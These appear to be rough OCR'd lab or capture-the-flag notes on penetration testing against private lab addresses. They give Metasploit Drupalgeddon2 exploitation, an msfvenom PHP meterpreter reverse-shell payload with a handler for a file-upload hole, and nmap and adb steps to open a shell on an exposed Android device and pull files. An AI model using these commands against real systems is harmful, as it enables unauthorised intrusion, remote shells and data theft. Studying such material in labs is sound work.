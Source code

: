 -> use exploit/unix/webapp/drupal_drupalgeddon2 

-> set RHOST 10.10.55.50 

-> set RPORT 80 # Ensure the port is correct for HTTP 

->run 

-> find / -name Flag.txt 2>/dev/null 

 
DVWA: 
Commad injection or  

This is a file upload vulnerability 


msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php 

msfdb init && msfconsole 

use multi/handler 

set payload php/meterepreter/reverse_tcp 

set LHOST=attacker-ip 

set LPORT= attcker-port 

run 

Android: 

->From the first nmap scan try to on which IP port 5555 is running.That IP is running a android emulator or can verify it by seeing the output 

-> nmap –p 5555 ip/24 or 

-> nmap -p 80,443,8080,8443,5228 --open 10.10.55.0/24 

Using adb Shell: 

adb connect x.x.x.x:5555 

adb devices -l 

adb shell  

pwd 

ls 

cd Download 

ls 

cd sdcard 

Find / -name “Scan Folder” -ls 2> /dev/null or find / -type d -name "dir-name-here" 2>/dev/null 

https://www.cyberciti.biz/faq/howto-find-a-directory-linux-command/ 

Download the folder or file  

adb pull sdcard/log.txt /home/mmurphy/Desktop 
